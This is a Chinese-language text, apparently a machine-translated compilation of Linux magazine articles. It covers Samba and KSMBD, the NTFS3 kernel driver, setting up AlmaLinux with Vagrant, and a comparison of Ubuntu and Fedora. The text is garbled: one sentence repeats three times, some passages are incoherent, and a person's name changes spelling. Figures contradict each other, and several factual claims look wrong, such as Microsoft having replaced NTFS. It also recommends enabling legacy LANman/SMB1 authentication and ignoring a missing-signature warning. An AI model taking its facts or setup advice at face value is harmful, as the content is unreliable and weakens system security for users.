> “对于任何想要在 Windows 网络上使用 Linux 机器的人来说，Samba 都是至关重要的。”

### 异常的 Windows 更新

但这还不够。我们读到过很多报告，称 Windows 更新礼貌地使它们发生的地方失效且不被建议，而且我们入行足够久，亲眼见过这种行为。在其他驱动器上规划恢复分区、将 MBR 转换为 GPT 以及 RAID 卷仅仅是其他一些非正统行为的一部分。Windows 这样做并不能获益，但与另一个 OS 共存从未在它的职责范围内，所以从某种意义上说，这是预料之中的。

另一个引导加载程序问题是，在 docx 文件早期，Windows 与其他 OS 之间主要的摩擦点之一是 NTFS 文件系统。这不仅仅是 Linux 的担忧——在没有专利工具的情况下，让 macOS 或 Android 写入这些卷一直是个令人头疼的问题。在 Linux 上，我们至少拥有可用的 NTFS-3G 驱动程序，但它的性能并不是最高的。幸好，这种帮助以新内核驱动的形式出现了（见右侧方框），而且我们不应该抨击 NTFS-3G。官方 WSL 文档警告称，现代 UEFI 使 Windows 阻止 Linux 引导变得更加容易。

此外，相反的情况，即从 WSL 内部到引导加载程序的传输这次不会下降得更快。这比 WSL 1 有轻微退步，因为 WSL 1 由于没有真正的 Linux 内核，能够简化其窗口元素之间的传输。简而言之：在 WSL 1 文件系统下受限的 Linux 文件系统 I/O 密集型工作负载，现在应该会有更好的表现。

除了 NTFS（见下文），Paragon Software 与微软达成协议，使其能够营销并许可自己的 exFAT 实现，虽然这曾是 Paragon 的福音，但微软在 2019 年实际上将 exFAT 开源了。更准确地说，它公开了 exFAT 系统的规范，并向 Open Invention Network (OIN，包括贡献其 IP 的成员) 的任何成员提供免费许可。随后社区在努力下编写了一个驱动程序，这再次归功于三星将其添加到 Kernel 5.7 中。此前曾有一个 exFAT 内核驱动程序，首次出现在 5.4 版本中。这基本上是三星一款 Android 平板电脑的修改版驱动，代码在 2013 年意外地出现在 GitHub 上，随后由三星开源。这段代码被 Greg K-H 描述为“糟糕”，并被嵌入在内核的上游树中。此后它得到了改进，并最终被三星更新的代码源取代。

网络文件系统通过 Samba 得到了改进。从 Kernel 5.15 开始引入了驱动程序 KSMBD，用于通过最新版本的 Windows Server Message Block (SMB3) 协议提供共享。这应该有助于在短期内加快传输速度，但长期的目标是拥有一个更精简的项目，随着项目的成熟而易于构建并添加到内核中。这与用户空间的 Samba 形成对比，后者是一个巨大的（且资深的）项目，不仅处理通过 SMB 提供文件，还处理客户端工具、活动目录、递归目录等更多内容。KSMBD 旨在与 Samba 和谐工作，而不是取代它。KSMBD 的待办事项清单中优先级很高的是实现 RDMA（远程直接内存访问）支持。此外，还已知有 SMB Direct，它可以实现高效传输以跳过协议开销，这目前是移动和嵌入式系统的瓶颈。

Samba 对于任何想要在 Windows 网络上使用 Linux 机器，反之在 Linux 网络上使用 Windows 机器的人来说都至关重要。但存在一些边缘情况。一些边界边缘情况，两者皆有。一些边界边缘情况，两者皆有。一些边界边缘情况，两者皆有。

我们的读者中有人遇到了旧的 “LANman” 密码验证不再受支持的问题，因此开箱即用时无法连接 Windows XP（或更旧）机器上的 SMB 共享。这些机器默认还使用旧版本的协议 (SMB1)。为了让 Samba 配合工作，普遍接受的解决方案是编辑 `/etc/samba/smb.conf` 中的以下行：

```
server min protocol = NT1
lanman auth = yes
ntlm auth = yes
```

当然，这会降低安全性，但如果你还在网络服务器上使用 Windows XP，那么你可能没必要担心安全性。在 https://the.iu.edu/atw/atom 描述了一个强制 NTLMv2 验证的注册表 hack，修改后将允许启用 lanman auth = ntlm auth，而无需上述最后一行。但 SMBv1 协议容易受到类似 WannaCry 的攻击，因此你应该尽量避开。伴随着这些以及并非所有的摩擦，我们结束了对 Windows 上的 Linux、Windows 喜爱 Linux 及其反之的勇敢新世界的探索。请告诉我们你的进展，下一期我们将回到常规的开源业务中！LPF

> Windows 磁盘管理工具傲慢地承认我们的 Linux 分区确实存在，但没有提供任何信息。

## PARAGON NTFS3 驱动程序

在多年不得不使用 NTFS-3g FUSE 驱动程序（用户空间文件系统）在 Linux 中读写 Windows NTFS 卷之后，一个驱动程序终于进入了内核。实际上，长期以来一直有一个内核驱动程序（事实上自 2001 年起就有），但它仅提供只读支持，且被大多数人忽视。NTFS-3g 对于在双启动系统上工作的人来说是一个宝贵的拐杖，但与原生 NTFS 相比，其性能较弱。特别是在旧系统上，它在写入数据的低效率速度下会消耗大量的 CPU 周期。

名为 NTFS3 的新内核驱动程序由 Paragon Software 开发的代码组成，该公司是一家提供跨文件系统、分区和网络管理工具的商业供应商。NTFS 自 1993 年起就已存在，现在的商业兴趣远不如以前。微软在新版本的 Windows 中已将其取代，因此 Paragon 去年慷慨地选择将其开源。这过程有点坎坷：Paragon 第一次尝试将 2.7 万行像“意大利面”一样混乱的代码丢进内核时，缺乏任何实质性的清理。然而，在 22 次尝试和一些社区建议之后，代码最终进入了 Kernel 5.15，在你阅读本文时，该版本应该已经发布。


## 赋予 Linux 灵魂

**Jonni Bidwell 想要一个免费的企业级操作系统，而坊间传闻 AlmaLinux 是目前最酷的选择……**

我们在 LFX726 中推出的“更快更好的服务器（Faster Better Servers）”专题吸引了比往常更多的读者来信，而且这些信件不仅仅是关于那些光辉的赛车意象，更多的是关于实际且更公平的待遇。好吧！

Red Hat Enterprise Linux (RHEL) 非常重视安全，且其生态系统中拥有大量值得信赖的第三方。这一特性被下游社区（如 CentOS, Rocky Linux 和 AlmaLinux）所继承，使得其中任何一个都成为极佳的选择。但哪一个更好？这是一个值得探讨的问题。CERN 和 Facebook 的数千台机器运行着 CentOS，也许你也是。随着 Red Hat 将精力集中在 CentOS Stream 上，CentOS 8 的支持周期将在 2021 年底结束。因此，一些用户可能仍在寻求迁移方案。

而那些已经从 CentOS 迁移出来的用户可能会质疑他们的选择。幸运的是，CentOS 8 和 Rocky Linux 的一个共同产物是，由于它们在终结时都追求与 RHEL 的 1:1 二进制兼容，因此它们彼此之间也实现了 1:1 二进制兼容。所以，在两者之间切换应该是相对容易的。CentOS Stream 作为 Red Hat 的社区产品，将成为未来 RHEL 版本的试验场，但它可能并非每个人都中意的 Linux 种类。但谁知道哪个新方向能经受住时间的考验，或者它们最终会走向何方。

另一个被评论的点是，我们之前实际上只覆盖了 CentOS Stream 和 Rocky Linux（后者由 CentOS 共同创始人 Greg Kurtzer 建立，并以共同创始人 Rocky McCoughy 命名）。这绝不应该是 CentOS 用户的唯一去处。我们或许应该将更多注意力转向其他的 RHEL 下游版本。尤其是 AlmaLinux，它已经证明了自己是一个强有力的竞争者。AlmaLinux 真正地由多种语言的社区驱动，这向 Linux 的“灵魂”——即其社区——致敬。因此，它旨在由社区治理和引导，这非常符合最初 Community ENterprise Operating System (社区企业操作系统) 的精神。它同样是一个值得运行在服务器上的企业级 OS，因此我们将向您展示如何使用 Vagrant 快速搭建一个 AlmaLinux 虚拟机。

回到 LXF82，在 Brown 博士的行政纲要的一角，有这位好医生的一段评论。那是 2014 年，Red Hat 刚刚宣布与 CentOS 建立合作伙伴关系。Red Hat 的 CTO Chris Wright 对 Red Hat 的动机持怀疑态度。Red Hat 承诺提供强大的构建基础设施，以便社区可以开发自己的 CentOS 流，这让他不禁质疑：“Fedora 不是应该是新技术的明确方向，在 [RHEL] 隔离中进行测试的地方吗？现在不再那样运作了吗？”

现在很明显，这种伙伴关系是如何帮助 CentOS 的——如果 CentOS-RHEL 开发伙伴关系防火墙撤销，那么 CentOS 自身肯定会停滞不前或陷入困境。而现在 Red Hat 在四个关键开发领域中脱颖而出，且其标志已成为官方的 Red Hat 商标。

七年后，Red Hat 自己的 Linux 工程副总裁 Mike Raggett（在接受 IT Pro Today 采访时）表示，他自己此前在认识 Red Hat 的诸多用处方面不够远见。我们建立的大多数社区——例如 Fedora——确实有大量的双向社区参与。不幸的是，CentOS 从来不是那样。它在很大程度上一直只是用户的汇聚地，因此其贡献模型大多是单向的。

AlmaLinux 团队花费了大量时间思考 CentOS 究竟在哪里出了问题。去年 9 月，社区经理 Jack Aboutsmoul 在 New Stack 上表示：“我过去与 CentOS 的维护者交谈过，我记得他们当时是多么的过度劳累且人手不足。”他说，“但说实话，人们总会感到疲惫；那是大量单调乏味的工作，没有替代方案，且看不到尽头；有点像当时的杂志生产（当然，我们是在开玩笑）。”

Alma Mirabilis（奇迹之 Alma）！旨在唤醒 CentOS 的灵魂。

## JACK ABOUTBOUL 谈 CENTOS

> “我与 CentOS 的维护者交谈过，我记得他们当时是多么的过度劳累且人手不足。那是大量单调乏味的工作，且看不到尽头。”

## 填补空白

很容易看出，新推出的 CentOS Stream 旨在做得更好。正如 Red Hat 高级社区架构师 Karsten Wade 所解释的：“本质上，Red Hat 通过将 CentOS 的位置从 RHEL 的下游移至 RHEL 的上游，填补了 Fedora 和 RHEL 之间存在的开发和贡献空白。”

Chris Wright 在引入 CentOS Stream 时表示，“开发者需要更多东西来应对他们的特定挑战。他们需要更容易地访问上游改进和修改的代码，并与更广泛的合作伙伴社区协作，以及影响新 RHEL 版本的方向的能力”。当时（2019 年 9 月），没有人提到 CentOS 将被削减，但肯定有人心存怀疑。

除了开发者方面的考量，另一个明显的问题是 Red Hat 最初是如何获得所有 CentOS 商标的。这在很大程度上是该项目自身治理的结果。最后，还有长久性的问题——即使有人制作出最快、最好（抱歉 Cliff-Ed）的免费 RHEL 克隆版，未来谁来维持和维护它？当赞助枯竭时会发生什么？

## 重建意味着什么？

构建 CentOS 是一项艰巨的工作。这是一个重点。人们很容易说：“好吧，只要抓取所有的源码 RPM 包，去掉品牌标志然后构建就行了。”但这并非那么简单。

- 在早期——在拥有正式构建基础设施之前——软件包倾向于在维护者的家用 PC 上构建。这是一项乏味的工作，而且使得新 CentOS 开发者的入职变得困难。而且 CentOS 自身的构建系统当时文档不够完善。CentOS 始终努力不修补任何会导致其与 RHEL 产生不必要距离的内容。但有时由于 Red Hat 自身封装的错误，这些额外的补丁在一段时间内是必需的。在 CentOS 自己的邮件列表中，大规模重建被视为禁忌。Johnny Hughes 在 2011 年曾说：“它是为社区构建的……而不是由社区构建的。”回顾来看，这一切使得开发过程显得相当缺乏凝聚力。因此，甚至在 Red Hat 正式参与之前，情况就并非全然乐观。

回顾过去，Stream 之前的 CentOS 社区存在许多向不同方向拉扯的力量。

值得注意的是，除了 CentOS 之外，一直存在其他 RHEL 克隆版。Tao Linux 在 2006 年并入了 CentOS。同样，White Box Enterprise Linux 和 Starcom Linux 的处境也没好到哪里去。CERN 开发的 Scientific Linux 现在面临不确定的未来，尽管 7 版本将按计划支持到 2024 年。哦，还有 Amazon Linux 和 Oracle Linux 均衍生自 RHEL，它们大概不会很快消失。此外还有 CloudLinux OS，这是一款专为托管设计的高级操作系统。CloudLinux 团队自 2009 年以来一直在重建 RHEL，而 AlmaLinux 的努力正是由 CloudLinux 推动的。正如 Jack 所说（在同一篇 New Stack 采访中），“我们意识到我们在技术方面处于一个独特的地位，可以回馈社区，并确保过去在 CentOS 所有权方面犯的错误不会再次发生”。

这些治理问题通过将 AlmaLinux 基金会设立为一个拥有独立董事会和共同所有权的 501(c)(3) 非营利组织而得到解决。贡献者拥有投票权，因此本质上每个人都有发言权。与 CentOS 不幸地通过赞助所培养的某种“社区”相比，这在社区精神上显得更加正确。

因此，AlmaLinux 在健康的意识形态方面得到了高度肯定。但在技术上可行吗？是的，绝对可行！它自发地获得了 Amazon 和 AWS 的认可，您可以在 AWS Marketplace 中自行部署。

使用 Cockpit 进行管理非常简单，使用 Podman 进行容器编排也很便捷。

可通过 (`https://bit.ly/tvx82Almaws`) 或 Azure (`https://bit.ly/bxT82almaazureWS`) 部署到 Raspberry Pi (`https://github.com/AlmaLinux/raspberry-pi-image`)，为 Pi 带来类 RHEL 的稳定性。为了完成本专题，我们将探讨一种折中方案：将 AlmaLinux 作为虚拟机运行，但使用来自 HashiCorp 且一直备受推崇的 Vagrant 配置软件进行设置。

Vagrant 使得在自己的平台上设置自定义虚拟环境成为可能。它自动化了原本枯燥的手动设置 VM（如果您愿意，可以设置多个）的过程，由于所有内容都指定在一个名为 `Vagrantfile` 的简单文本脚本中，因此生成的机器具有高度的可移植性。

只需一行简单的命令行指令，整个 VM 就能启动运行。

### Vagrant 入门

我们的第一步是在 Debian 上安装 Vagrant。在 Debian（或 Ubuntu）上，操作如下：

```bash
$ curl -sL https://apt.releases.hashicorp.com/gpg | gpg --dearmor -o /etc/apt/trusted.gpg.d/hashicorp.gpg
$ sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
$ sudo apt-get update && sudo apt-get install vagrant
```

如果您需要其他平台的安装选项，请查看 Vagrant 官方网站的下载页面 `https://www.vagrantup.com/downloads`。Vagrant 支持多种虚拟化平台，包括 VirtualBox, KVM 和 VMware。VirtualBox 是最好的，可能也是最方便的，因为它在 Linux Format 社区中很普及。所以我们就用这个（假设您已经安装好了）。

预构建的 Vagrant boxes（所谓的基础镜像）用于……

## 通用基础镜像 (UBI)

2019 年，Red Hat 为容器世界注入了强心剂。Red Hat 推出了通用基础镜像 (Universal Base Images, UBI)。这旨在解决容器不可移植的问题，有时在部署到其他地方时必须重新构建。Red Hat 的 UBI 镜像旨在提供标准软件包集和运行时语言环境，使容器构建在不同部署目标之间具有可重复性。现在，得益于 AlmaLinux 的云与容器 SIG（特别兴趣小组），AlmaLinux 同样提供了 UBI 兼容镜像。它们提供四种变体：Base, Micro, Init 和 Minimal。后者使用 `microdnf` 而非完整的 `DNF` 包管理器，因此运行不需要 Python。Base 镜像大小约为 100MB，而 Micro 镜像更小，甚至没有包管理器。更少的活动部件意味着更低的开销，且减少了潜在问题的侵入机会，因此该镜像被宣传为能提供更高的安全性。如果您需要更多灵活性，Init 镜像可用于一次性将多个应用程序容器化，并使用您选择的管理工具统一管理。

容器镜像支持 x86_64 和 arm64 架构，您可以在此处查看：`https://github.com/AlmaLinux/docker-images`。有关云与容器 SIG 的更多信息，请查看 wiki 页面 `https://wiki.almalinux.org/Cloud`。该 wiki 仍在不断扩展，请务必浏览并查看其他页面——那里可能有一些非常有才华且知识渊博的链接能为您提供帮助。


> CERN 及其 LHC（如图所示）广泛使用 CentOS，且尚未公布迁移计划。

AlmaLinux 可在官方 Vagrant Cloud 网站以及社区网站 (**www.vagrantboxes.co**) 下载。为了理解其运作方式，最好先从头开始构建。要将官方 AlmaLinux box 添加到 Vagrant，请按照以下步骤操作：

```
$ mkdir alma_vagrant
$ cd alma_vagrant
$ vagrant init almalinux/8
```

最后一步在当前目录下创建了一个 `Vagrantfile`，因此保持配置整洁是一个好习惯。如果你查看这个文件，你会发现大部分内容都被注释掉了。除了 `config.vm.box` 指令外，其余内容均指向已在命令行中指定的设置。不过，浏览注释后你会发现，设置一些在 VirtualBox 中需要手动操作的项目其实很容易。例如，私有网络、端口转发和同步文件夹都是预先确定的。你甚至可以添加内联 shell 脚本，例如用于更新系统和安装 Apache。我们暂时跳过复杂的配置细节，直接启动我们的 Alma 虚拟 box：

```
$ vagrant up
```

这将下载实际的机器镜像（大小约为 700MB），并相当详细地告知你它正在执行的所有操作。特别是，你会看到客户机（guest）的 22 端口被转发到宿主机（host）的 2222 端口，从而允许你通过 SSH 进入虚拟机。你还会看到我们之前设置的 `/alma_vagrant` 目录被挂载到了客户机内部的 `/vagrant` 路径下。如果你启动 VirtualBox GUI，你会发现机器确实已经启动并在运行。但请关闭那个笨重的 GUI —— 你可以直接通过命令行完成所有必要的管理工作。

要通过 SSH 进入机器，只需在同一目录下运行 `vagrant ssh`。我们无法轻易手动完成此操作，因为在配置过程中设置的 SSH 密钥深藏在 Vagrant 的配置之中。为了继续配置，由于我们意外地到了页面末尾，请参阅 Vagrant 网站上优秀的文档。

> 高亮显示的行是我们的 Vagrantfile 的基石，但几乎所有内容都可以在这里进行配置。

## UBUNTU VS FEDORA

Jonni Bidwell 想要了解关于两种最流行的基于 Gnome 的发行版的全部信息 —— 他的意思是*全部*……

Fedora 和 Ubuntu 都是备受推崇的发行版，但在许多领域采取了不同的方法。如果你相信谷歌搜索结果前几项的对比，你会得出这样的结论：Ubuntu 更适合初学者，Fedora 率先采用新技术，而 Ubuntu 拥有规模更大的公司支持。但这些简单的总结很少能讲述完整的故事，因此为了庆祝两者的最新版本发布，我们认为现在是重新审视并对这些操作系统进行测试的好时机。

我们将研究软件可用性、游戏能力以及关于两者构建方式的一些技术点。两者的旗舰版本 Fedora 和 Ubuntu 都运行 Gnome，且都支持桌面协议，因此在这方面没有什么可比的。Ubuntu 的中期版本支持九个月，而 Fedora 的版本支持六个月。如果这两个月对你很重要，那么你已经从这个特性中获益了。但如果你想进一步了解两者的原位升级（in-place upgrades）如何运作，那么你得继续往下读。

我们还将查看每个样本的服务器产品。Ubuntu 的 cloud-init 工具使设置新服务器变得简单，而 Fedora 的 Cockpit 工具能让你在短时间内像专业人士一样进行管理。如果你热衷于物联网（IoT），那么 Ubuntu Core 将让你的嵌入式项目快速运行起来。Fedora 的 CoreOS 则是为那些想要运行基于容器的工作负载的用户准备的。此外还有由 OSTree 原子更新驱动的 Fedora Silverblue。

好了，是时候让“橙色”与“蓝色”展开一场直到……呃，内核恐慌（kernel panic）的决战了！

## 再次探讨，是什么让它们如此出色？

在 Linux Format Towers，我们一直向用户推荐 Ubuntu 和 Fedora，但有时我们会忘记原因……

有一种观点认为，Linux 的核心就在于选择。同样，还有一个网站 http://islinuxaboutchoice.com 表达了不同的观点（而且是用非常巨大的蓝色字母写的）。且不论传闻和单页网站，用户在选择使用哪个 Linux 发行版时确实拥有选择权。而有时这种选择是很困难的。

Ubuntu 通常被归类为（以及它的衍生版 Mint, Pop!_OS, elementary OS, 和 Zorin OS）适合初学者的发行版。相比之下，Fedora 被视为新（尤其是与 Gnome 相关的）技术的试验场，更适合中级用户。但对于初学者来说，定义并非一切。只要有一点运气且没有 Nvidia 硬件，他们在使用 Fedora 时可能会感觉良好。如果不行，他们在 Ubuntu 上可能也不会好到哪里去，因为唯一的明显用户界面差异 —— 左侧的 Ubuntu 品牌标志 —— 不太可能提供任何形式的精神支持。

Fedora 通过直接将你带入“活动”（Activities）视图，向你介绍新的横向工作区布局。

AppArmor (Ubuntu) 和 SELinux (Fedora) 为锁定应用程序提供了极佳的保障。就像其他人通过在桌面和服务器上使用相同的软件栈获得和谐一样，Ubuntu 为用户提供了一个实验性选项来安装 ZFS（针对有特定存储需求或重视替代方案的人）。Fedora 现在默认提供 Btrfs（Btrfs 文件系统，令人恼火的是被乳制品爱好者称为“butterfs”），它同样可以通过自愈功能处理跨多个顽固驱动器的数据损坏。

得益于 Snaps，Ubuntu LTS 的用户只需点击一下即可获取最前沿的软件。而那些寻求更新内核和底层系统工具（仅以传统 RPM 和 DEB 包提供）的用户，可以在 Fedora 和 Ubuntu 的中期版本中找到它们，这也是我们在本期中将关注的重点。

Snaps 可能比 Flatpaks 稍微通用一些，因为它们既可以打包命令行实用程序，也可以打包图形应用程序，但两者都通过沙箱隔离提供了更高的安全性。它们之间更大的区别在于如何处理第三方仓库。

### 提升档次

高级用户同样在两个操作系统中乐在其中。其中注重安全的用户认可……

> Impish Indri 也是我们最喜欢的 Ubuntu 动物之一。现在能够通过控件切换音频设备是一个小小的尝试。

## 这里的“自由”是指“为什么我的无线网络不能工作？”

在介绍你的许可证之前（如果需要，请查看我们的技术编辑指南）。Ubuntu 和 Fedora 对于无法存放在各自发行版仓库中的分发政策截然不同。例如，Ubuntu 较早地推荐了 ZFS，其起源于 Sun 的 Solaris 操作系统。它在 2001 年开源，但是在通用开发与分发许可证（CDDL）下进行的。因此，它不能成为 Linux 内核本身的一部分，因为 CDDL 不能在 GPLv2 下重新授权。

但 ZFS in Linux (ZoL) 项目设计了一个内核模块，Canonical 显然对此非常满意并将其包含在内。然而，Fedora 没有采用任何处理非自由（non-free）产品的真正“黑客”手段，因此 ZoL、专有的 Nvidia 驱动程序以及各种 Wi-Fi 固件都留给用户自行安装。这意味着软件的便利性不一定成为不使用 Fedora 的理由。Nvidia 硬件的所有者可以很容易地配置 Fedora 以进行 AAA 级游戏。只需像（在下一页）我们添加 Intel media SDK 的非自由仓库一样，添加 RPMFusion-Nvidia 仓库即可。

除了像 Arch 和 Gentoo 这样追求极致前沿的发行版外，Fedora 通常比其他发行版更早地让新技术投入运作。但是，虽然最新的发行版通过新鲜激动人心的方式呈现这些特性，但要在不破坏其他功能的情况下让其真正运行起来，通常是一个挑战（我们很享受这个过程，对吧？ —— 编辑注）。


## 顶级发行版包含什么？

了解 Fedora 和 Ubuntu 是如何设计、管理和支持的。

正如任何人都可以为 Linux 内核做出贡献一样，任何人也可以为 Fedora 或 Ubuntu 做出贡献。你不需要成为一名资深的编程人员——总是有翻译任务和文档任务需要完成。如果你擅长使用（虚拟）画笔，或许还可以贡献一些图标、主题和标志。不过，发行版的开发并不是一个社区内的随意之举。这里存在委员会和管理结构，尽管它们通常比同规模的公司要灵活得多。在 2015 年，在 2,000 名坚实的 Fedora 贡献者中，有一定比例是 Red Hat 工程师，这意味着剩下的 65% 很有可能是在为其他人工作。

我们不会深入探讨发行版实际制作的技术细节。查看任何发行版 GitHub 站点的适当后续分支，你就能对该流程有所了解。举例来说，在 Ubuntu 21.10 发布后的一周内，22.04 (Jammy Jellyfish) 的首批每日构建版本就出现了。在撰写本文时，这些版本与 21.10 发布版几乎没有区别，因为第一步是决定构建环境并同步每个人的工具链。可以通过 https://discourse.ubuntu.com/t/jammy-jellyfish-release-schedule/23906 查看当前的发布计划，其中显示了计划包含的新软件的发布时间。

例如，OpenSSL 3 和 Ruby 3.0 都计划在 11 月发布。如果你还没有意识到 Ubuntu 21.10 是基于 Gnome 41 发布的（凭借镜像滑动发布计划），那么你会很高兴地听到 Brave（在本文印刷时已在对齐 22.04 版本发布）已经出现在 22.04 桌面上了。

## 指挥链

Fedora 主要由 Fedora Council 管理，其中包含来自项目各方的代表。Red Hat 提名的成员占据少数，其余则由其他人组成。其下层是 FESCo（Fedora 工程指导委员会）和 MindShare。FESCo 负责决定项目的技术方向，而 MindShare 则专注于社区推广，协调团队间的联络并鼓励贡献者加入。向 FESCo 和 MindShare 汇报的是规模较小的工程团队和社区团队。

与 Fedora 类似，Ubuntu 的开发版本采用 fedora 风格发布，但稳定版本则不同，这是人们将在其服务器上运行并享有 10 年支持的版本（需订阅 Ubuntu Advantage）。其版本发布，结合 Canonical 为企业客户（OpenStack, Kubernetes, Ceph 等）提供的支持，表明其在填补金库，因此将 LTS（长期支持）版本也做得极尽完美并不符合其利益。与 Fedora 一样，对每个发行版的贡献不仅来自商业雇员，还来自其他公司和志愿者。监督权在 Ubuntu 技术委员会（Ubuntu Technical Board）和 Ubuntu 社区委员会（Ubuntu Community Council）之间分配。两者都被设想为类似于 MindShare。一个关键区别是，Ubuntu 有一个以 Mark Shuttleworth 为代表的 BDFL（终身仁慈独裁者），在上述两个机构出现平票时，他拥有决定权。

Ubuntu 的技术委员会和社区委员会都在 IRC 上正式会面。这看起来像是一种过时（或者，如果你从未用过 IRC，则显得复杂）的开会方式。但它比 Zoom 更高效，而且由于大量开源项目都是这样协调的（无论是隐晦地还是明显地），所以就这么运行下去了。Fedora 的委员会同样使用 IRC，他们为新人提供了一份很棒的指南，详见 **https://fedoramagazine.org/beginners-guide-irc/**。对于提供发行版中极其繁重的一部分工作，Fedora 使用自己的工具来构建人们实际下载的文件（ISO 或 USB 镜像）。Fedora 和 Ubuntu 都有各自的工具来完成这项非trivial的任务。

### 支持级别

Canonical 和 Red Hat 都通过为企业客户提供支持来获利。例如，Canonical 为基础设施提供 Ubuntu Advantage (UA-I)，快速浏览 **https://ubuntu.com/pricing** 就可以看到它分为三个等级。最便宜的 Essential 支持方案可为最多 5 台机器免费提供（每台机器限制 256 个 CPU 和 225 GB 内存），适用于虚拟、系统或任何桌面，且不包括电话支持，但你可以为此支付额外费用（每台机器每年 525 美元），且该方案仅适用于 LTS 版本。如果你在寻找包含管理员安装的付费支持，或者驱动整个控制台环境，那么这可能不适合你。它更多地针对仪器化和服务器管理（使用 LTS Landscape 管理工具）。

即便如此，Essential 等级最多可为三台机器免费提供（如果你是官方社区成员），并包括针对旧内核（即 4.14 和 5.4）的扩展安全维护（ESM），这本质上是上一个内核雕琢阶段的内核。系统支持仅适用于标准 LTS 内核，因此不支持非标准 LTS 内核的用户，对此我们深表遗憾。但这里没有付费支持。Red Hat 支持 Red Hat Enterprise Linux，其测试技术在 Fedora（在 Test 中，现在是 CentOS Stream）中运行，最终将进入 Fedora 主线。如果你需要（Ubuntu 的）Kubernetes 或 OpenStack 支持，那么你需要升级到 Standard Tier（标准等级）。如果你在公有云（如 AWS, Azure 等）上运行 Ubuntu，那么你的每小时成本最高可降低 10%，请在 **https://ubuntu.com/** 切换到 Ubuntu Pro。

对于社区支持，有官方的 Fedora Ask 和 Ubuntu Wiki 网站（分别运行在 Discourse 和 StackOverflow 上）。这两个网站每天收到数十个问题，并且都提供了关于如何提出高质量问题以及如何成为一名有用贡献者的易于访问的信息。

## 别再烦我了（Bug 汇报）

除了手动提交 bug 报告，你还可以通过扫描相关团队来发送 bug 报告。Fedora 的自动 Bug 报告工具 (ABRT) 将在任何 Fedora 打包的应用程序崩溃时立即启动，并自动创建一份匿名的崩溃报告并发送到其 ABRT 分析服务器。该工具（无需人工干预）将类似的报告汇总在一起。当解决方案可用时，用户会收到相应的指示。如果没有确定修复方案，报告将被保留并由打包人员查看，希望他们能尽快想出对策。

Ubuntu Advantage 免费注册，但对于家庭用户来说，其益处有限。

在 The Fedora Lounge (**https://forums.fedoralounge.com**) 和 **https://ubuntuforums.org** 也有更传统的论坛。如果你认为发现了 bug，请熟悉每个发行版的 bug 报告流程，以便开发人员能够修复它。如果你是一个理智的人，请在熟悉此流程或冷静下来之前，克制住直接发帖寻求解决方案的冲动。

在跟踪 bug 方面，Fedora 使用流行的 Bugzilla 应用程序。Ubuntu 使用同样流行的 Launchpad。两个平台的工作流程基本相同：bug 报告经过分诊、测试并（希望地）被修复，但它们也可能被标记为“Wontfix”（不予修复），即该问题被判定为不是一个问题，或者被判定为另一个 bug 的重复项。Bugzilla 应用程序也用于功能请求，但同样地，你应该熟悉这里的礼仪。当用于过滤所需功能的“蓝图 (blueprints)”时，Launchpad 显然具有更先进的功能。

不用说，在提交新报告之前，你应该进行一些尽职调查，检查你的 bug（或功能请求）是否已经被报告。Fedora 在 **https://fedoraproject.org/wiki/Bugs/Common** 维护了一份常见 bug 列表，你应该在其中仔细检查你计划报告的异常情况。有时同一个 bug 会以不同的方式呈现，因此一些看似不同的 bug 可能会在不经意间被标记为重复项。

ABRT 可以跟踪所有这些方面，并提示用户提供详细信息。Ubuntu 的方法也是如此，向 Ubuntu Bug Control 和 Bug Squad 团队报告。可以在 **https://bugs.launchpad.net/~ubuntu/+source/gnu-plasma-workspace/+bug/1945904** 研究这些报告。那里列出了一些陈旧的记录；通过筛选这些编号，你可以注意到下一个版本中的新特性。关于报告 Ubuntu bug 的更详细和最新的信息，你应该加入 bug 挤压 (bugs squeezing) 团队，请查看 **https://help.ubuntu.com/stable/ubuntu-help/report-ubuntu-bug.html.en**。

有时，bug 报告者会被邀请测试来自发行版 proposed-updates 仓库的建议软件包。这些很容易测试，但通常来说，全局启用它们是一个坏主意，因为正确的修复可能会损坏另一个软件包，而后者又有相应的建议修复。这使得即使某些 bug 得到了修复，其他软件包也很有可能损坏。Fedora 的对应工具 (**https://bodhi.fedoraproject.org**) 用于跟踪带有建议更新的 bug，而对于 Ubuntu，所有内容在 Launchpad.net 上或多或少是统一的。


## 利用显卡加速，让流媒体播放更流畅

利用你高端的显卡来解码视频，从而释放 CPU 资源用于其他计算和合成工作。

由于对于大多数人来说，浏览网页占据了计算机使用时间的大部分，因此我们想看看是否能挖掘出各发行版在开箱即用方面的更多差异。**Firefox 配置**。我们之前提到过，通过启用 WebRender 后端并激活 VA-API 以实现硬件加速视频解码，可以让 Firefox 运行得更流畅。但在现实世界中如何实现这一点，需要经过一些尝试和摸索。

这两个发行版都搭载了 Firefox 93。如果你进行全新安装，Ubuntu 使用的是 Mozilla Utils snap 包；如果是从之前的 Ubuntu 版本升级，则会从软件源获取 DEB 版本。第一步是让 VA-API 正常工作，这在 Ubuntu 上相当简单。只需简单的 `sudo apt install vainfo` 即可安装所有必需的视频驱动。随后运行 `vainfo` 且没有出现共享内存错误，这意味着 IHD（适用于较新 Intel 显卡的 Mesa Intel 驱动）已准备好进行 VA-API 处理。

在 Fedora 上，过程则更为复杂。包含 `vainfo` 的软件包在 Fedora 中被称为 `libva-utils`，但仅仅安装这个包（通过 `dnf install libva-utils`）是不够的——系统无法直接找到驱动。我们在基础软件源中搜索 `libva`，发现了一个 `libva-intel-hybrid-driver`，但事实证明它毫无用处——该驱动适用于旧款芯片，而我们使用的是第 10 代 Dell XPS。于是我们进行了一些 Google 搜索，发现所需的驱动程序在 RPMFusion 软件源中提供。

RPMfusion 托管了许多无法包含在 Fedora 官方发行版中的热门软件包。RPMfusion 有两个软件源：free 和 nonfree。对于现在的大多数用户，我们建议同时启用这两个源。现在你甚至不需要输入任何指令，只需：访问网站 `https://rpmfusion.org/Configuration`，点击 Configuration 35（或你的具体版本）的 “RPM Fusion free” 链接并按照说明操作。Firefox 已经通过 Package Installer 设置了自己的 RPM 包，所以请按照提示操作（不用担心“缺失安全签名”的警告），软件源随后将被添加。在 free 源中，你会找到 `intel-media-driver` 包，其中包含了 VA-API libva-accelerated 驱动。

## 艰难迈向高级加速

